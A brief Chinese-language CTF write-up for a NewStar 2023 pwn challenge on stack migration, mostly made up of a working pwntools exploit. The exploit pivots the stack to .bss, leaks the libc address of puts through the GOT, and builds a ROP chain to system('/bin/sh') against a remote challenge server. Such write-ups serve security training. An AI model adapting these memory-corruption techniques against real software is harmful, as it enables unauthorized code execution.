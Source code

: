 ```yaml
---
title: newstar2023 week3 - stack migration revenge
date: 2023/10/14 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序
~~怎么这次都是-2.zip~~

## 解题思路

程序很简单，但是拿不到栈地址，怎么办？  
迁移到bss上后，地址就可控了，回到了上次的栈迁移

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 25597)
elf = ELF('stackm')
bss = 0x404800
read = 0x4011ff # read to bss - 0x50

# payload 1, stack pivot to bss
sh.send(b'0'*0x50 + p64(bss) + p64(read))

sh.recvuntil(b'ny\n') #skip
putsGot = elf.got['puts']
putsPlt = elf.plt['puts']
vulnAddr = 0x4011db
popRdiAddr = 0x4012b3
retAddr = 0x401228
leaveRetAddr = 0x401227

# payload 2, stack pivot to popRdi
sh.send(p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x30 + p64(bss - 0x58) + p64(leaveRetAddr))

sh.recvuntil(b'ny\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
systemAddr = libcBase + libc.dump('system')
shstrAddr = libcBase + libc.dump('str_bin_sh')

# payload 3
sh.send(p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x30 + p64(bss - 0x90) + p64(leaveRetAddr))

sh.interactive()
```

Done.
